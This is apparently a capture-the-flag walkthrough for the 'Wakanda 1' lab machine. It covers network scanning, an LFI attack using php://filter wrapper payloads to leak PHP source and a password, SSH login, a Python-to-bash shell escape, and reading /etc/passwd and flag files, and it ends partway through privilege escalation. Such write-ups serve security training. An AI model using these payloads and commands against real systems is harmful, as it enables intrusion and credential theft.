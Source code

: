 # Wakanda 1


## [step 1] Finding Ip Address

> nmap nmap -sT 192.168.0.0/24 
>
> netdiscover -r 192.168.0.0/24 \
>
> arp-scan -l

## [step 2] Finding Port 
> nmap [nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.56.101]
>
> nikto [nikto -h 192.168.56.101]

## [step 3] Directory
> directory buster [dirb  192.168.156.101]
>
> nikto [nikto -h 192.168.56.101]

## [step 4] web pages analysis and decoding
> curl 
>
> curl -I 192.168.56.101/fr.php
>
> curl -I 192.168.56.101/index.php
### As there was this in line in source page :  <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
#### The commented HTML seems to suggest LFI vulnerability is present with the lang parameter.
#### So try this: 
> [http://192.168.56.101/index.php] this is homepage.So we'll try  LFI/RFI attack,using Wrappers.
Wrapper php://filter
- http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
- http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
- http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

> After [http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index]
>
#### there are  encoded words.

> curl http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d
>
#### We'll get php code in which there is password.

## [Step 5] ssh
> try login through ssh
>
> ssh -p3333 mamadou@192.168.56.101

### we'll get a python shell after login

``` 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

> try to get bash shell by python command : [>>> import os; os.system("/bin/bash")
]
```
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cat flag.txt
cat: flag.txt: No such file or directory
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ ls -la
total 24
drwxr-xr-x 2 mamadou mamadou 4096 Aug  5 02:24 .
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
mamadou@Wakanda1:~$ pwd
/home/mamadou
```
```
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ locate flag2.txt
/home/devops/flag2.txt
mamadou@Wakanda1:~$ cat /home/devops/flag2.txt
cat: /home/devops/flag2.txt: Permission denied
mamadou@Wakanda1:~$ ls -al /home/devops/
total 24
drwxr-xr-x 2 devops developer 4096 Aug  5 02:25 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ 
```




